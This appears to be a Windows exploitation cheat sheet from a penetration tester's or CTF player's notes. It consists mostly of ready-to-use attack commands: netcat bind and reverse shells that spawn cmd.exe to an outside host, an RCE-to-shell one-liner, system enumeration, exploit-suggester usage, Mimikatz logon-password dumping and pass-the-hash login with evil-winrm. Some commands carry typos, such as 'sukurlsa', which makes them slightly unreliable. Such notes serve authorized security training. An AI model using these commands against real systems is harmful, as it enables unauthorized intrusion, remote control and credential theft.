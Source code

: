 # Windows Exploitation

## Remote Desktop

```bash
# xfreerdp
xfreerdp /u:username /p:password /v:10.10.10.1:3389 /drive:/z3r0 +clipboard 
```

## Upgrading Shells

```bash
# rce to shell
system("start cmd.exe /k $cmd")
```

## Shells

```bash
# bind shell
nc.exe -Lp 1337 -vv -e cmd.exe
# reverse shell
nc.exe 192.168.1.1 1337 -e cmd.exe

```

## Enumeration Commands

### Basic Commands
```bash
hostname
# user info
echo %username%
getuid
whoami
whoami /priv
# all user info
net users
net users Administrator
# firewall
netsh firewall show state
netsh firewall show config
# scheduled tasks
schtasks /query /fo LIST /v 
# services
net start
wmic service list brief
tasklist /SVC
```

### Versions
```bash
# patches, architecture, os
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
# os version
type c:/windows/system32/eula.txt
```

### Network
```bash
# basic info
ipconfig /all & route print & arp -a 
# connections
netstat -aton
```

### Searching
(common world writable folders: ...)
```bash
# find
dir /S /B file
# grep
findstr /spin /c:"pattern" file
findstr /S /I /M /C:"pattern" *.*
```

## Privelege Escalation

### Exploit Suggester
```bash
systeminfo
# take output and put into systeminfo.txt
python windows-expoit-suggester.py --database 2020-09-27-mssb.xls --systeminfo systeminfo.txt
```

### Mimikatz
```bash
./mimikatz.exe 
	privilege::debug
	sukurlsa::logonpasswords
evil-winrm -i 10.10.10.1 -u Administrator -H $NTLM
```

## Links to Resources
- [Windows Elevation of Privileges ToC by WindowsOp](https://guif.re/windowseop)
